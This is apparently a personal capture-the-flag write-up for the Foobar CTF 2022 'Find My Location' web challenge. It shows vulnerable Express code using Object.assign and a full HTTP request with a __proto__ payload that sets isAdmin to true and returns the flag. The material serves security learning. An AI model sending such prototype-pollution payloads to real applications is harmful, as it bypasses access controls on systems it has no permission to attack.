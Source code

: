 <img src="https://cdn.pocas.kr/CTF/Foobar%20CTF%202022/back.png" style="width: 100%; max-width: 100%; height: auto;">
I participated the Foobar CTF 2022 about 1h and I solved two web challenges.

---
## (Web) Find My Location [100 pts]

The Find My Location is challenge that solve using the prototype pollution.

```javascript
const myLoaction = [
    { flag: "GLUG{f4k3_fl4g_f0r_t3st1ng}" }
]
```
The flag location is an object called myLocation

```javascript
app.post('/', (req, res) => {
    console.log(req.body)
    const user = findUser(req.body.auth || {});

    if (!user) {
        res.status(403).send({ ok: false, error: 'Access denied' });
        return;
    }

    const history = {
        icon: '👋',
    };

    Object.assign(history,req.body.location)

    if (history.isAdmin == true) {
        res.status(200).send(myLoaction)

    } else {
        res.status(200).send(history)
    }
})
```
If we want to get the flag, we must set the value of isAdmin to true but in general, we cannot. But prototype pollution occur in Object.assign(). We can set the value of isAdmin property to true using the this issue.

```plaintext
POST / HTTP/1.1
Host: chall.nitdgplug.org:30230
Content-Length: 83
Content-Type: application/json
Connection: close

{"auth":{"name":"user","password":"pwd"},"location":{"__proto__":{"isAdmin":true}}}

HTTP/1.1 200 OK
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: application/json; charset=utf-8
Content-Length: 45
ETag: W/"2d-yNZSGSCCBiCRsTRZe/W+haX4BRM"
Date: Sat, 05 Mar 2022 16:40:38 GMT
Connection: close

[{"flag":"9orO7yp3_po11u7iOn_f1nd_1oc4tiOn"}]
```
